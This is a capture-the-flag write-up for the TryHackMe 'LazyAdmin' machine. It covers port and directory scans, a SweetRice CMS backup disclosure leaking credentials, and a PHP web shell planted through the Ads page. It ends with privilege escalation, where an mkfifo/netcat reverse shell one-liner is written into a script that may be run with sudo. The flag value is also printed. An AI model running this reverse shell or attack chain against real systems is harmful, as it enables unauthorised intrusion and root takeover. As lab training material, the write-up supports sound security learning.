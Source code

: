 # LazyAdmin (Easy)

- Exploit the Server Apache Linux:

![Untitled](https://github.com/user-attachments/assets/080ebe79-5350-4cdd-9235-1edd9a5371e0)

- Scan ports and directory of the machine:

```bash
nmap -sV -vv -A -T4 <IP> -Pn
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

```bash
gobuster dir -u http://10.10.161.128/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.161.128/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.161.128/content/]
/server-status        (Status: 403) [Size: 278]
Progress: 441120 / 441122 (100.00%)
===============================================================
Finished
===============================================================
```

- We try go to /content

![Untitled 1](https://github.com/user-attachments/assets/95eb11a2-5063-45db-820b-3801462f60ac)

—> Now we have the name of website: “SweetRice”.

- We don’t have more any information about the credentials so we have to research to find the vuln and weakness of the website.
- We use `searchsploit` to research “SweetRice”

```bash
searchsploit SweetRice
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion          | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities       | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download        | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload          | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure              | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery     | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / P | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File U | php/webapps/14184.txt
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

—> A lot of Vuln to exploit so first we will notice the vuln “Backup Disclosure” because maybe in the backup file we can find the credential.

![Untitled 2](https://github.com/user-attachments/assets/e66dedea-dfde-4ac0-ab51-68b0792df7bb)

—> We try the concept: Access to file mysql backup and download from the directory /inc/mysql_backup but we need to access through the directory /content which we scan directory in the enumuration.

![Untitled 3](https://github.com/user-attachments/assets/c715994d-81d0-4d61-901c-9f098cab4b0d)

- Now we open the file mysql_backup and find some information the credential.

![Untitled 4](https://github.com/user-attachments/assets/9bfdd2ec-aa2e-4f2a-9b29-d448762ded79)

—> We got the username is “manager” and password is the hash value 

- Dehash password: “Password123”
- We switch the another vuln. We knew that there are cms SweetRice has the vuln CSRF (Cross-Side Request Forgery) and we can execute PHP code. Try it!

![Untitled 5](https://github.com/user-attachments/assets/fa60fc9f-23af-4c88-966e-47f94adb721d)

- We have found that we could access /as to access page log in SweetRice. Now we use the credential we found to login.

![Untitled 6](https://github.com/user-attachments/assets/662d4cf9-99a9-4d4e-8b53-106a71326b01)

![Untitled 7](https://github.com/user-attachments/assets/510f8c88-7a22-4664-8659-0f759e647538)

—> Success!!!

- We read the vuln database CSRF to exploit it. We will manipulate Ads section to add PHP code in Ads file and through CSRF vuln we can execute PHP code. Let do it!!!

![Untitled 8](https://github.com/user-attachments/assets/bd518c80-8ee3-4579-afb1-22436ce4e406)

- Now we will ad the web PHP shell available into the code <?php ?> and run file. After file PHP executed we access page in /inc/ads/Hacked.php and catch the listener through netcat to get initial access.

![Untitled 9](https://github.com/user-attachments/assets/c13a9a3f-f15b-42bb-9028-3b9282c44f70)

![Untitled 10](https://github.com/user-attachments/assets/e9fcee61-1759-45cd-a931-03fc5f4ea194)

—> We got it!!!

# Privilege Escalation:

- First we can try command  `sudo -l`  to check file can run sudo with no password.

```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

```bash
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

—> This file run perl script and first it will run /etc/copy.sh file. 

```bash
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.10 1234 >/tmp/f
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP_Machine> 4444 >/tmp/f" > copy.sh
$ sudo /usr/bin/perl /home/itguy/backup.pl
```

```bash
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.75.150] from (UNKNOWN) [10.10.215.10] 51458
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
# exit
```

END!!!
